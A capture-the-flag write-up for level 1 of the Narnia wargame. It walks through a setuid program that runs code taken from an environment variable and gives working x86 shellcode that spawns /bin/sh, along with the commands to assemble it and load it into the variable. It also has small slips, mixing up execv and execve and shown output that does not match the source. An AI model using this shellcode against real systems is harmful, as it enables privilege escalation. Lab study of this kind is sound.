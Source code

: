 __Narnia :: Level 1__
================


_Caleb Stewart_ | _Friday, January 15th, 2016_ 


> The goal of this level is for you to hijack a SETUID executable by injecting shell code for it to run. The executable you are attempting to exploit is /narnia/narnia1. It is owned by the user narnia2, and has the SETUID bit set. This means that when another user runs the program, the program will recieve an effective user id of narnia2, allowing it to act as the narnia2 user.

> The password for the next level is stored in /etc/narnia_pass/narnia2, which is only readable by the narnia2 user.


----------

If we run the narnia1 executable, we find it prompts us to place some shell code in the `EGG` environment variable to run, as seen below.

```
narnia1@melinda:~$ /narnia/narnia1
Give me something to execute at the env-variable EGG
```

This seems pretty straightforward. All we need to do is modify the EGG environment variable with the right shellcode, and the executable will do the work for us. If you don't understand how this works, we can take a walk over to the source code for this challenge.

```
/*
	GNU GPL omitted...
*/
#include <stdio.h>

int main(){
	int (*ret)();

	if(getenv("EGG")==NULL){    
		printf("Give me something to execute at the env-variable EGG\n");
		exit(1);
	}

	printf("Trying to execute EGG!\n");
	ret = getenv("EGG");
	ret();

	return 0;
}
```

It appears that if we provide the program with a value for EGG, it will simply attempt to execute it as if it were compiled code. There are a few different ways to generate the code to place in EGG. In general, we need code which will be stand alone, and not reference any memory addresses, because we have no way of knowing them. We also need access to a shell started by this process. This sounds a lot like execv. The execve function has a prototype of:

```
int execv(const char *path, char *const argv[]);
```

 We can craft a little bit of assembly to call execv, passing in /bin/sh, without referencing any memory except constant values and the stack. Here's the assembly we will use:

```
xor    %eax,%eax
imul   %ecx
push   %eax
push   $0x68732f2f
push   $0x6e69622f
mov    %esp,%ebx
push   %eax
push   $0x6969692d
mov    %esp,%esi
push   %eax
push   %esi
push   %ebx
mov    %esp,%ecx
mov    $0xb,%al
int    $0x80
```

This might look a little odd, but that's because we don't call execv using the normal method. Here, we use `int $0x80` in order to call the function. This is because execv is a system call, and linux system calls are access via interrupt number 0x80 (128d). The parameters are first pushed onto the stack. The strings are represented by hexadecimal numbers, and then the stack pointer is used to find values for the parameters. The actual pointers (path, and argv) are stored in esi, and ebx. The function number (system call number) for execv is 0xb, therefore we store 0xb in the al register to tell the kernel which function to call. You should write this code to a file in the /tmp directory. I'll call it /tmp/shellcode.s.

Once we have our assembly written, we must compile this to a flat binary data. Depending which syntax you used for the assembly, we can either us the Gnu Assembler (`as`) or `nasm`. In our case, we used AT&T syntax, so we will use the Gnu Assembler. To compile this to a flat binary file, we can use the following command:

```
$ as --32 -o /tmp/shellcode.o /tmp/shellcode.s
$ ld -m elf_i386 -Ttext 0 --oformat binary -o /tmp/shellcode.bin /tmp/shellcode.o
```

The contents of shellcode.bin are now what we need to place into our environment variable. The simplest way to do this is to use the `cat` command with the backticks:

```
export EGG=`cat /tmp/shellcode.bin`
```

With that, we can now run /narnia/narnia1. If we run it now, we should get the following output.

```
Something about executing EGG
$
```

That dollar sign means it worked! You can now try using the command `whoami`, which should tell you that you are operating as the narnia2 user. With these privileges, simply use `cat` to see the contents /etc/narnia_pass/narnia2, and you will have the password. Congratualations! You just solved Level 2 of the Narnia Wargame!